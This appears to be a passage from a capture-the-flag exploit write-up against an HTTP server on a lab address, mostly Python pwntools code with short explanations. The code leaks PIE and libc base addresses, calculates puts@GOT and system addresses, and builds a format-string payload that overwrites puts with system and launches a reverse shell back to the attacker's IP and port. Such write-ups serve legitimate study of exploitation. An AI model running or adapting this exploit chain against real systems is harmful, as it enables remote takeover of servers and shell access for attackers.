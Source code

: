 
```python
    ##########################################
    ####      1.) Leak PIE base           ####
    ##########################################
    # Get pie base address
    pie_base = io.recvuntil("httpserver").decode()
    pie_base = pie_base.split("-")[0].rstrip()

    # Pack address
    pie_base = int(pie_base,16)
    log.success("Leaked PIE base: 0x%x" % pie_base)

    # Receiv unwanted stuff
    io.recvuntil("[heap]")
```
First, we will receive the pie_base address, which is the first address mentioned.
```python
    ##########################################
    ####      2.) Leak LIBC base          ####
    ##########################################
    # Get libc base address
    libc_base = io.recvuntil("libc").decode()
    libc_base = libc_base.split("-")[0].rstrip()

    # Pack address
    libc_base = int(libc_base,16)
    log.success("Leaked libc base: 0x%x" % libc_base)
```
Next, we receive the libc_base address.

```python
log.info("Stage 2: Calculating offsets")
    # Calculate puts address from leaked pie_base
    puts = pie_base + binary.got['puts']

    # Calculate system address from leaked libc_base
    system = libc_base + libc.symbols['system']
    log.success("Calculated offset for PUTS@GOT: 0x%x" % puts)
    log.success("Calculated offset for SYSTEM@LIBC: 0x%x" % system)

    # Recv rest of unwanted stuff
    recvAll()

    # Return leaked addresses
    return puts, system
```
With both addresses leaked, we use pwntools to calculate the offsets and return the actual addresses for puts and system. We will later use pwntools again to generate a Format String payload, which we pass to the SendPayload function.

### SendPayload function
```python
def sendPayload(io, IP, PORT, payload):
    # Get IP address of host and generate reverse-shell payload
    rev_shell = genPayload(IP, PORT)

    # Final payload which overwrites puts with system and calls reverse-shell
    final_payload = '''\
    {REV} /{PAYLOAD} HTTP/1.1
    Host: 10.10.10.148:9999
    User-Agent: curl/7.65.3
    Accept: /

    '''.format(REV=rev_shell,PAYLOAD=parse.quote(payload)) # URL encode

```

[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif